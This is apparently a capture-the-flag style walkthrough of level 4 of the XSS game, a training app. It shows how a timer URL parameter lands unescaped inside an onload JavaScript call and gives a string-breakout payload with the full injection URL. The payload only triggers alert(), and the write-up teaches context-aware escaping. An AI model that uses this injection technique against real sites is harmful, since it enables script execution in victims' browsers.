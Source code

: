 
# Level 4: Context matters

## Challenge Overview
- Level 4 focuses on **context-aware XSS** and **proper escaping**.
- The application is a timer/stopwatch that allows users to set a custom timer value.
- Users can input a number and click a button to start the timer.
- **Objective**: Inject JavaScript that triggers an **alert()** by exploiting improper context handling.
- **URL Structure**: `https://xss-game.appspot.com/level4/frame?timer=[VALUE]`

## The Vulnerability
Let's examine the code. You'll likely find something like:
```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');">
```
Or in JavaScript:
```js
<script>
	function startTimer(seconds) {
		// ...
	}
</script>
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```
The application takes the `timer` parameter from the URL and inserts it **directly into a JavaScript function call** within an **HTML attribute!**

## Understanding the Attack Vector
The Injection Point:
```html
<img src="/static/loading.gif" onload="startTimer('USER_INPUT');" />
```
Our input is trapped between single quotes inside JavaScript code. To execute our own code, we must break out of the string context and inject executable JavaScript.

## Solution
The Payload:
```
' + alert() + '
```
Full URL:
```
https://xss-game.appspot.com/level4/frame?timer=' + alert() + '
```
How It Works:
```js
startTimer('' + alert() + '');
           |    |         |
           |    |         +- Empty string
           |    +----------- Our alert() executes and returns undefined
           +---------------- Empty string
```
